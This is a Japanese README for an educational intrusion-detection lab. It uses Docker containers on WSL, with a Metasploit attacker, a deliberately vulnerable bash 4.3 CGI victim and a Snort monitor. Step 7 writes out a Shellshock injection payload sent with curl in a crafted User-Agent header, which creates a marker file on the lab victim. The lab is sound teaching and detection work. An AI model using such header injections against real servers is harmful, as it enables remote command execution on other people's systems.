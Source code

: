 # IDS-Education

## 概要
初学者に向けた簡易的かつ安全なIDS教育環境の構築を可能とする
### 特徴
- WSLを用いており、軽量なsnortによるIDS実験環境である
- 攻撃/被攻撃環境は互い以外の通信を完全に遮断されており、外部への攻撃危険性, 外部からの攻撃危険性が低い
- metasploitを用いた実践的な攻撃の演習、検知実験も可能
- Doclerfileの追記および変更やルールファイルの変更による自由度も高い

## ファイル
### shellshock-lab.tat.gz
#### snort-dockerフォルダの構成
```
snort-docker
├── Dockerfile
├── local.rules
└── snort.conf 
```
#### 内容
- Dockerfile: Dockerを起動するためのファイル。起動時にsnortをインストールする
- local.rules: あらかじめTCP通信,およびshellshockによる攻撃をそれぞれ検知するよう設定されたルールファイル。起動時にsnortのrulesフォルダにコピーされる
- snort.conf: 簡易的なsnortの設定が記述されている
#### shellshockフォルダの構成
```
shellshock
├── attacker
│   └── Dockerfile
├── victim
│   ├── Dockerfile
│   └── cgi-bin
│       └── vulnerable.sh
└── docker-compose.yml
```
#### 内容
- attacker: attacker-msfを起動するDockerfileを格納
    - Dockerfile: 起動時にmetasploitやcurlをインストールする
- victim: victim-shellshockを起動するDockerfile等を格納
    - Dockerfile: 起動時にpython3, bash-4.3をインストールする
    - cgi-bin: cgiスクリプトを格納
        - vulnerable.sh: 脆弱なbashを用いてコマンドを実行
- docker-compose.yml: attacker, victimの二つのコンテナのビルド、連携を定義

## 構築手法
1. WindowsにWSLをインストール
2. Githubからshellshock-lab.tar.gzをダウンロード(Downloadsフォルダにダウンロードしたと仮定)
3. WSLにDockerをインストール
4. tarファイルを解凍 \
    例(WSL内のbash)
    - `cd ~/`
    - `tar -xzvf /mnt/c/Users/[ユーザー名]/Downloads/shellshock-lab.tar.gz`
5. 攻撃用コンテナ、被攻撃用コンテナを起動 \
    例(WSL内のbash)
    - `cd ~/shellshock`
    - `docker-compose build`
    - `docker-compose up -d`
6. 監視用コンテナ\
    例(新しいウィンドウとして開いたWSL内のbash)
    - (新しいWSLウィンドウを開く)
    - `cd ~/snort-docker`
    - `docker build -t monitor-snort .`
    - `docker run -it --rm --network=host --cap-add=NET_ADMIN --cap-add=NET_RAW monitor-snort`
7. 攻撃コンテナの中に入り攻撃を行う \
    例(snortではないの方のWSL内bash)
    - `docker exec -it attacker-msf /bin/bash`
    - (攻撃コンテナの中に入り、bashが起動)
    - `curl -A '() { :;}; echo vulnerable > /tmp/shellshock.txt' http://victim:8000/cgi-bin/vulnerable.sh`
    - (victim内にshellshock.txtが作成され、snortを起動したウィンドウにはTCP packet detected, shellshock deteted のアラートがそれぞれ表示される)
    - `exit`(攻撃コンテナから出てWSLに戻る)
    - `docker exec -it victim-shellshock /bin/bash`
    - (被攻撃コンテナの中に入る)
    - `cat /tmp/shellshock.txt`(vulnerableと出力されればcurlによりファイルが生成されている=攻撃が成功している)

linux環境以外ではブリッジ名の固定が失敗する可能性があり、その場合は snort-docker/Dockerfile の最終行、isolated_netを環境に合わせて変更することが必要